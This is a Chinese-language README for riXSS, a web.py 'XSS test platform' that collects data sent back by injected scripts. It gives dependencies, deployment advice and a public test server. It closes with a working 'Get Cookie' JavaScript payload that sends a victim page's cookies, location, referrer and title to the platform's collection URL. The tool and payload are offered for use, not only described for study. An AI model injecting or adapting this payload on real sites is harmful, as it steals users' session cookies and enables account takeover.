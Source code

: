 riXSS
========
一个开源的XSS测试平台，采用web.py构建。
依赖暂时如下：

    web.py == 0.37
    jinja2 == 2.8-dev

所需环境为：

    Python 2.7
    Nginx
    uWSGI 1.9

我们推荐uWSGI方式部署。具体可参考：http://www.ricter.info/articles/125    
目前开发刚刚进行。如有愿意开发者请提issue :)

##删档测试声明
以目前的开发状态，大部分功能都可以完成。未公布文档，所以一些接口还未暴露。    
目前删档测试的地址：http://xss.lolilu.info   
测试配置状态：

    Ubuntu12.04
    Python2.7
    Nginx+uWSGI
    SQLite

测试时如果出现错误页面或者其他越权等情况，以及用户体验的情况，请提交issue。    
~~各位大大别黑我服务器啊~~    
测试完成后将会删除数据库。    
具体接口（添加模块）如下：

    {{ now_path }}：当前payload路径，payload应该以get方式当问{{ now_path }}（这是自己部署时候需要注意的）
    {{ id }}：要写入的项目序号

另外附上Get Cookie模块的Payload

    var x=new Image();
    try
    {
    var myopener='';
    myopener=window.opener && window.opener.location ? window.opener.location : '';
    }
    catch(err)
    {
    }
    x.src='{{ now_path }}?id={{ id }}&location='+escape(document.location)+'&toplocation='+escape(top.document.location)+'&cookie='+escape
    (document.cookie)+'&opener='+escape(myopener)+'&referrer='+escape(document.referrer)+'&title='+escape(document.title);

